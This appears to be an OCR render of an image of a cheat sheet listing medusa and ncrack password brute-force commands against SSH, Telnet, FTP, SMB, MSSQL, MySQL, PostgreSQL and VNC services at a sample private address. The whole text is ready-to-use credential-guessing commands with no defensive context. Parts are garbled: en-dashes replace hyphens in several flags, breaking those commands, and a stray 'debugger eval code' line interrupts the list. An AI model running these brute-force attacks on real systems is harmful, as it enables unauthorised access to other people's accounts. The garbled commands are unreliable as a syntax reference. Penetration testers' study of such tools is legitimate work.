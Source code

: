 # SSH BRUTE
medusa -u rosborne -P /usr/share/seclists/Passwords/probable-v2-top207.txt -h 10.0.0.1 -M ssh -n 22

# TELNET BRUTE
medusa -u rosborne -P pass.lst -h 10.0.0.1 -M telnet

# FTP BRUTE
medusa -H hosts.txt -U user.txt -P pass.txt -M ftp -T 1
medusa -M ftp -C userpass.txt

# SMB BRUTE
medusa -h 10.0.0.1 -U user.txt -P pass.lst -M smbnt

# MSSQL BRUTE
medusa -h 10.0.0.1 –U user.txt –P pass.lst –M mssql

# MySQL BRUTE
medusa -h 10.0.0.1 -u rosborne -P pass.lst -f -t 3 -M mysql

# PostGreSQL
medusa -h 10.0.0.1 –U user.txt –P pass.lst –M postgres

# VNC BRUTE
medusa -h 10.0.0.1 –u root -P pass.lst –M vnc
      debugger eval code:1:62
# SSH BRUTE
ncrack -p 22 --user rosborne -P pass.lst 10.0.0.1 -T 5

# TELNET BRUTE
ncrack -U user.txt –P pass.lst 10.0.0.1:23

# FTP BRUTE
ncrack -U user.txt -P pass.lst ftp://10.10.0.1

# SMB BRUTE
ncrack –U user.txt -P pass.lst 10.0.0.1 –p 445
